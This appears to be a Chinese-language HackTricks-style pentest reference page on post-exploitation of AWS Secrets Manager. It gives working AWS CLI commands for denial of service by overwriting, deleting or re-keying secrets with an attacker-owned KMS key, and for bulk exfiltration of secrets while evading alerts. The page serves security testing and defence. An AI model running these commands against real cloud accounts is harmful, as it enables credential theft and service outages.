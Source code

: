 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

更多信息请查看：

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### 读取 Secrets

这些 **secrets 本身就是敏感信息**，[参见 privesc 页面](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) 以了解如何读取它们。

### DoS 更改 Secret 值

更改 Secret 的值可能会导致 **依赖该值的所有系统被 DoS。**

> [!WARNING]
> 注意以前的值也会被存储，因此可以很容易地恢复到之前的值。
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

如果攻击者拥有 secretsmanager:UpdateSecret 权限，他们可以将 secret 配置为使用由攻击者拥有的 KMS key。该密钥在初始设置时允许任何人访问和使用，因此可以使用该新密钥更新 secret。如果该密钥不可访问，则无法更新 secret。

在为 secret 更改密钥之后，攻击者修改他们的密钥配置，使只有他们自己可以访问。这样，secret 的后续版本将使用新的密钥加密，由于他人无法访问该密钥，检索 secret 的能力将丧失。

需要注意的是，这种不可访问性只会发生在后续版本，也就是 secret 内容变更之后，因为当前版本仍然使用原始 KMS key 加密。
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

删除 secret 的最短等待天数为 7 天
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

可以恢复 secret，这允许恢复已被安排删除的 secret，因为 secret 的最短删除周期为 7 天，最长为 30 天。结合 secretsmanager:GetSecretValue 权限，就可以检索它们的内容。

要恢复正在被删除的 secret，你可以使用以下命令：
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

此操作允许删除控制谁可以访问 secret 的资源策略。如果该资源策略被配置为允许特定用户集合访问，则可能导致 DoS。

要删除资源策略：
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

secret 的状态用于管理 secret 的版本。AWSCURRENT 标记应用程序使用的活动版本，AWSPREVIOUS 保存前一个版本以便在必要时回滚，AWSPENDING 在轮换过程中用于准备和验证新版本，然后将其设为当前版本。

应用程序始终读取标记为 AWSCURRENT 的版本。如果有人将该标签移动到错误的版本，应用将使用无效的凭证并可能失败。

AWSPREVIOUS 不会被自动使用。然而，如果 AWSCURRENT 被移除或错误地重新分配，表面上可能看起来一切仍在使用前一个版本运行。
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### 使用 BatchGetSecretValue 批量导出 secrets（每次最多 20 个）

滥用 Secrets Manager 的 BatchGetSecretValue API，在单个请求中检索最多 20 个 secrets。与对每个 secret 逐个调用 GetSecretValue 相比，这可以显著减少 API 调用次数。如果使用 filters（tags/name），还需要 ListSecrets 权限。CloudTrail 仍会为批量中检索到的每个 secret 记录一条 GetSecretValue 事件。

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue（针对每个目标 secret）
- secretsmanager:ListSecrets（如果使用 --filters）
- kms:Decrypt（针对 secrets 使用的 CMKs，如果未使用 aws/secretsmanager）

> [!WARNING]
> 注意：仅拥有 `secretsmanager:BatchGetSecretValue` 权限不足以检索 secrets，您还需要为每个要检索的 secret 授予 `secretsmanager:GetSecretValue` 权限。

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
通过过滤器（按标签键/值或名称前缀）进行外传
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
处理部分失败
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
影响
- 迅速的 “smash-and-grab” 获取大量 secrets，使用更少的 API 调用，可能绕过针对 GetSecretValue 激增而调整的告警。
- CloudTrail 日志仍然会为批量检索的每个 secret 记录一条 GetSecretValue 事件。
